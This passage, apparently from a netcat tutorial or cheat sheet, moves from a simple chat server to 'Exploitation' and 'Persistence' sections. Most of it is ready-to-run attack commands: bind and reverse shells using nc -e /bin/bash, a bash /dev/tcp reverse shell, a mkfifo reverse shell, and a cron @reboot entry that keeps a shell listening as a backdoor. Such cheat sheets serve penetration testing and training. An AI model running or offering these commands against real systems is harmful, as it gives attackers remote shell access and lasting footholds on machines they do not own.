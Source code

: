 ### Chat Server
Create a simple chat server:

```bash
# Server side
nc -nlvp 4444

# Client side
nc -nv 192.168.1.10 4444
```

## Exploitation

### Bind Shell
A bind shell opens a port on the target machine that an attacker can connect to:

```bash
# On victim machine (creates a listening shell on port 4444)
nc -nlvp 4444 -e /bin/bash

# On attacker machine (connects to the shell)
nc -nv 192.168.1.10 4444
```

### Reverse Shell
A reverse shell initiates a connection from the victim back to the attacker:

```bash
# On attacker machine (sets up listener)
nc -nlvp 4444

# On victim machine (sends shell back to attacker)
nc -nv 192.168.1.100 4444 -e /bin/bash
```

### Alternative Reverse Shell Commands
If the `-e` option is not available (as in some versions of Netcat):

```bash
# On victim machine (bash)
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

# On victim machine (using mkfifo)
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```

## Persistence

### Persistent Backdoor
Create a persistent backdoor using various methods:

**Using cron job**
```bash
# Add this to crontab on victim machine
@reboot nc -nlvp 4444 -e /bin/bash
```
